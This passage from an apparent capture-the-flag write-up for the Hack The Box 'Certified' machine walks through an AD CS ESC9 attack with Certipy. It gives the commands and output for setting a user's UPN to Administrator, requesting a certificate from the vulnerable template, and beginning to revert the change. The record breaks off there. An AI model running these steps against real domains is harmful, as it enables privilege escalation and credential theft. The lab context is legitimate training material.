 $ cat 20250313205721_Certipy.txt
<...>
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
<...>
 [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
<...>
{{< /highlight >}}

Using the attack path from [thehacker.recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) for ESC9 we can compromise the domain administrator account.

We already have the NT hash of *ca_operator*, so we can change their ```userPrincipalName``` attribute to *Administrator*.
{{< highlight go "hl_lines=1" >}}
$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
{{< /highlight >}}

Then, we can request an authentication certificate as *ca_operator* using the vulnerable template.\
Ca and template values can be found in the .txt generated earlier.
{{< highlight go "hl_lines=1 11" >}}
$ cat 20250313205721_Certipy.txt
<...>
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
<...>


$ certipy-ad req -username "ca_operator@certified.htb" -hashes b<...>2 -target "10.10.11.41" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
{{< /highlight >}}

Finally, we can change back the ```userPrincipalName``` of *ca_operator* to themself and we can retrieve the administrator NT hash using the generated administrator.pfx file.
{{< highlight go "hl_lines=1 9" >}}
$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn "ca_operator@certified.htb" -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)
